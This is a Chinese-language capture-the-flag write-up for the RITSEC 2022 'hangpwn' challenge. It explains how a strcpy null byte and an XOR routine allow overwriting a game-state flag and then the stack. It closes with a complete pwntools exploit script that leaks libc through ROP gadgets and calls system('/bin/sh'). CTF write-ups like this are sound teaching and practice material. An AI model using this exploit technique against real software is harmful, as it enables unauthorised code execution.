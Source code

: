 ﻿
---
title: RITSEC-CTF-2022-PWN-hangpwn
categories: [CTF]
tags: [wp,pwn]

---
这个比赛很迷惑。感觉大多题很水但是ctftime比重高。这是其中一个有点意思的题<!--more-->。

## 题目分析

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

题目没有开启PIE和canary。减少了不小负担。

题目的主要功能很简单就是猜测字符，主要代码如下：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rbp
  char *v4; // rax
  char guessed[7]; // [rsp+1h] [rbp-3Fh]
  char guess_buffer[16]; // [rsp+8h] [rbp-38h]
  char buffer[16]; // [rsp+18h] [rbp-28h]
  game_0 state; // [rsp+2Ch] [rbp-14h]
  __int64 v10; // [rsp+38h] [rbp-8h]

  __asm { endbr64 }
  v10 = v3;
  init_game();
  *(_QWORD *)&state.attempts = 0LL;
  *(_DWORD *)&state.words[6][0] = 0;
  *(_QWORD *)buffer = 0LL;
  *(_QWORD *)&buffer[8] = 0LL;
  *(_QWORD *)guess_buffer = 0LL;
  *(_QWORD *)&guess_buffer[8] = 0LL;
  *(_DWORD *)guessed = 0;
  *(_WORD *)&guessed[4] = 0;
  guessed[6] = 0;
  while ( !state.game_over && !state.solved )
  {
    print_game(&state);
    printf("Enter letter: ");
    v4 = fgets(buffer, 16, stdin);
    if ( !v4 )
      return (signed int)v4;
    *((_BYTE *)&v10 + strcspn(buffer, "\n") - 32) = 0;
    if ( strlen(buffer) == 1 )
    {
      char_comp(buffer, "v}zsuag", guessed, state.attempts, 1);
      if ( state.attempts == 6 )
        state.game_over = 1;
      printf("FINAL GUESS\nEnter word: ", "v}zsuag");
      v4 = fgets(guess_buffer, 16, stdin);
      if ( !v4 )
        return (signed int)v4;
      if ( compare_enc(guess_buffer, "v}zsuag", 7) )
        state.solved = 1;
      strcpy(state.words[state.attempts], buffer);
      enc(state.words[state.attempts], 1);
      ++state.attempts;
    }
    else
    {
      puts("\n\tINVALID INPUT");
    }
  }
  print_game(&state);
  return (signed int)v4;
}
```

但是这个功能有点沉于，首先这个猜测在一个循环里进行。但是这个循环由两参数控制`game_over`和`solved`控制，其中一个为真则循环结束。

而这个猜测有两个阶段：

第一个阶段要求输入这个字符，如何这个字符在目的字符里则显现出来。若输入不是一个字符则重新进入第一阶段。

第二阶段是输入一个字符串与目的字符串比较，若比较成功则solved为真。若二阶段进行了6次则game_over为真。

但是在布局时奇怪：

```
*(_DWORD *)&state.words
*(_QWORD *)&state.game_over

```

`state.words`与`state.game_over`两者相临，即state.word结束后的高地址就是`state.game_over`.这样我们就有机会覆盖`state.game_over`.

同时代码中用：

```c
 strcpy(state.words[state.attempts], buffer);
```

来写入words。

而strcpy有个特性：

> strcpy，即string copy（字符串复制）的缩写。
>
> strcpy是[C++](https://baike.baidu.com/item/C%2B%2B/99272)语言的一个标准函数 ，strcpy把含有['\0'](https://baike.baidu.com/item/'\0'/9931274)结束符的字符串复制到另一个[地址空间](https://baike.baidu.com/item/地址空间)，返回值的类型为char*。

换句话说，strcpy会在一个字符串后自动添加上'\x00'.

这样我们就有机会覆盖`state.game_over`

## 漏洞利用

这样算我们输入6次就可以覆盖`state.game_over`那么为什么我们正常运行时，很难发现这个问题？

因为我们在覆盖`state.game_over`后，程序开始了下一次循环，` strcpy(state.words[state.attempts], buffer);`将覆盖`state.game_over`为我们输入的字符。这样'\\x00'就被覆盖掉。因此我们得将`state.game_over`为0进行保留。

但是若我们输入'\x00'，`strlen(buffer) `将判断失败，无法写入`state.words`

.幸好，题目中留个异或：`env()`函数.

```c
void __cdecl enc(char *words, int length)
{
  int i; // [rsp+18h] [rbp-Ch]

  __asm { endbr64 }
  for ( i = 0; i < length; ++i )
    words[i] ^= 0x34u;
}
```

这样我们就可以输入‘\x34’字符来代替‘\x00’.从而无限制写入栈。

剩下就是简单栈溢出。



## exp

```python
#!/usr/bin/env python
# -*- encoding: utf-8 -*-

'''
@File    :   exp.py
@Time    :   2022/04/3 10:13:59
@Author  :   lexsd6
'''

from pwn import * 
from libcfind import *

local_mote=1
elf='./hangpwn'
e=ELF(elf)
context.arch=e.arch
#context.log_level = 'debug'
ip_port=['',]

debug=lambda gdb_cmd='': gdb.attach(p,gdb_cmd) if local_mote==1 else None

if local_mote==1 :
   p=process(elf)
else :
   p=remote(ip_port[0],ip_port[-1])

"""
0x00000000004016dc : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004016de : pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004016e0 : pop r14 ; pop r15 ; ret
0x00000000004016e2 : pop r15 ; ret
0x00000000004016db : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004016df : pop rbp ; pop r14 ; pop r15 ; ret
0x00000000004011dd : pop rbp ; ret
0x00000000004016e3 : pop rdi ; ret
0x00000000004016e1 : pop rsi ; pop r15 ; ret
0x00000000004016dd : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040101a : ret

"""

xxxx='BINGAUS'
#debug()

for i in  range(10):
	p.sendline(chr(0x34))
	p.recvline()
	p.sendline(chr(0x34))



for i in range(8):
	p.sendline('S')
	p.recvline()
	p.sendline('1')

def wtaddr(addr):
	add=0x100
	for i in range(8):
		xx=addr%add
		p.sendline(chr((addr%add)^0x34))
		addr=addr//add
		p.sendline('lexsd6')

wtaddr(0x00000000004016e3)
wtaddr(e.got['puts'])
wtaddr(e.sym['puts'])
wtaddr(e.sym['main'])
p.recv()
p.sendline('1')
p.recv()
p.sendline('BINGAUS')

libcaddr=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
log.info(hex(libcaddr))
x=finder('puts',libcaddr)

for i in  range(10):
	p.sendline(chr(0x34))
	p.recvline()
	p.sendline(chr(0x34))



for i in range(8):
	p.sendline('S')
	p.recvline()
	p.sendline('1'*0x2)


wtaddr(0x00000000004016e3)
wtaddr(x.dump('str_bin_sh'))
wtaddr(0x000000000040101a)
wtaddr(x.dump('system'))
debug()
p.sendline('1')
p.sendline('BINGAUS')

p.interactive()

```


